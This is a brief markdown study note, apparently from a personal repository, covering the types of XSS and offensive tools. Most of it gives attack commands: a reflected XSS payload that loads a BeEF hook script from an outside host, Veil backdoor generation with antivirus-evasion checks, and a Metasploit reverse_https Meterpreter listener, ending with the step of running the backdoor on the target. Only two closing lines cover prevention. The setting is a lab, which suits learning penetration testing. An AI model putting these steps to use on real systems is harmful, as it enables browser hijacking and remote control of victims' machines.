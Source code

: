 # XSS Vulnerabilities
> XSS- Cross Site Scripting

Three mai types:
- Persistent/Storde XSS
- Reflected XSS
- DOM based XSS


## beef xss framework
```bash
sudo apt install beef-xss

<script>alert("test")</script>


192.168.31.142/dvwa/vulnerabilities/xss_r/?name=<script src="http://192.168.31.158:3000/hook.js"></script>

# commands
create alert dialog
raw javascript
spyder eye
redirect browser 
pretty theft
```

## veli
```bash
# install vail framework
# read installation documentation
https://github.com/Veil-Framework/Veil

# run
veil
# generate backdoor
use 15
set LHOST 192.168.30.251
set LPORT 8081
set PROCESSORS 1
set SLEEP 6
GENERATE

# check backdoor in online
https://antiscan.me/
https://nodistribute.com/

# listen by using metasploitable framework

msfconsole
use exploit/multi/handler
show options
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 192.168.30.251
set LPORT 8081
exploit

# target pc
pass the generated backdoor file and execute this in target mechine
```

# Preventing XSS Vulns
- Minimize the usages of user input on html.
- Escape any untrusted input before inserting it into the page. 